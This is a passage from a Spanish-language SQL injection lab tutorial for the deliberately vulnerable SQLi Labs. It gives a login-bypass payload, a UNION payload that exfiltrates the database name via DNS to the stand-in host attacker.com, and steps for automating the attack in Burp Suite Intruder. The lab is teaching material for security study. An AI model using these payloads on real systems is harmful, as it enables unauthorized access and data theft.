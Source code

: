 📌 **Si ves hosts internos, puedes intentar conectarte a ellos.**

## **🔹 Práctica 18: Bypass de Autenticación en Formularios de Login**

📌 **Objetivo**: Acceder sin credenciales.

**Pasos:**
1️⃣ En un login vulnerable, prueba:

```sql
' OR 1=1 -- -
```

📌 **Si accedes sin credenciales, el sitio es vulnerable.**

## **🔹 Práctica 19: Exfiltración de Datos Vía DNS**

📌 **Objetivo**: Enviar datos de SQL Injection a un servidor DNS externo.

**Pasos:**
1️⃣ En Kali Linux, inicia un listener DNS:

```sql
sudo tcpdump -i eth0 port 53
```

2️⃣ Ejecuta una consulta SQL en SQLi Labs:

```sql
http://localhost/sqli-labs/Less-1/?id=-1 UNION SELECT 1,LOAD_FILE(CONCAT('\\\\attacker.com\\',database())),3 -- -
```

📌 **Si `attacker.com` recibe tráfico, el ataque ha sido exitoso.**

## **🔹 Práctica 20: Automatización con Burp Suite**

📌 **Objetivo**: Usar **Burp Suite** para detectar SQL Injection.

**Pasos:**
1️⃣ **Configura Burp Suite como proxy**.
2️⃣ **Intercepta una solicitud vulnerable** en `SQLi Labs`.
3️⃣ En **"Intruder"**, usa el payload:

```sql
' OR 1=1 -- -
```

4️⃣ **Ejecuta el ataque** y revisa los resultados.

📌 **Burp Suite puede automatizar ataques SQLi en gran escala.**

# **📌 Conclusión**

🔹 **Has aprendido 10 técnicas avanzadas de SQL Injection.**
🔹 **Ahora puedes evadir WAFs, leer/escribir archivos y escalar privilegios en MySQL.**
🔹 **En la próxima fase, exploraremos ataques en bases de datos NoSQL y otras estrategias avanzadas. 🚀**

📢 **¿Listo para seguir profundizando en seguridad web? ¡Sigue practicando en SQLi Labs!** 🔥



![M2](https://github.com/Grandote58/CloudSafeGuard/blob/main/Recursos/Recurso%203%402Menbrete2.png)

